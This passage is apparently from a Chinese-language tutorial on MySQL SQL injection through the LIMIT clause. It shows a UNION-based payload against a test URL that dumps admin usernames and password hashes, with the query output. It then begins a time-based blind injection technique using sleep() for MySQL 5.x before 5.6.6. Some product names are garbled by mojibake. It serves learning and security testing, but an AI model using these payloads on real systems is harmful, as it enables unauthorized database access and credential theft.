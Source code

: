 ```plain
3 rows in set (0.01 sec)
```

## 0x07 爆内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

web语句: http://www.test.com/limit_sql.php?limit=2 union select 1,concat(0x7e,id,0x3a,username,0x3a,password,0x7e),3,4,5,6,7 from test.tdb_admin limit 0,3;

数据库语句: select * from tdb_goods limit 0,2 union select 1,concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e),3,4,5,6,7 from 库名.表名 limit 0,3;

```plain
mysql> select * from tdb_goods limit 0,2 union select 1,concat(0x7e,id,0x3a,username,0x3a,password,0x7e),3,4,5,6,7 from test.tdb_admin limit 0,3;
+----------+--------------------------------------------+------------+------------+-------------+---------+------------+

| goods_id | goods_name                                 | goods_cate | brand_name | goods_price | is_show | is_saleoff |

+----------+--------------------------------------------+------------+------------+-------------+---------+------------+
|   1 | R510VC 15.6鑻卞绗旇鏈?                     | 绗旇鏈?    | 鍗庣       |    3399.000 |       1 |0 |
|   2 | Y400N 14.0鑻卞绗旇鏈數鑴?                  | 绗旇鏈?    | 鑱旀兂       |    4899.000 |       1 |  0 |
|   1 | ~1:admin:7fef6171469e80d32c0559f88b377245~ | 3          | 4          |       5.000 |       6 |          7 |
+----------+--------------------------------------------+------------+------------+-------------+---------+------------+

3 rows in set (0.00 sec)
```

# MySQL limit union时间盲注-无orderBy的注入方法-只适用于小于5.6.6的5.x系列

## 0x00 记忆方式

select * from tdb_goods limit 0,2 union select 1,if(substring(表达式,1,1)=判断条件 ,sleep(5),1),3,4,5,6,7

## 0x01 基本数据

```plain
mysql> select version();
+-----------+
| version() |
+-----------+
| 5.5.53    |
+-----------+
1 row in set (0.27 sec)

mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

```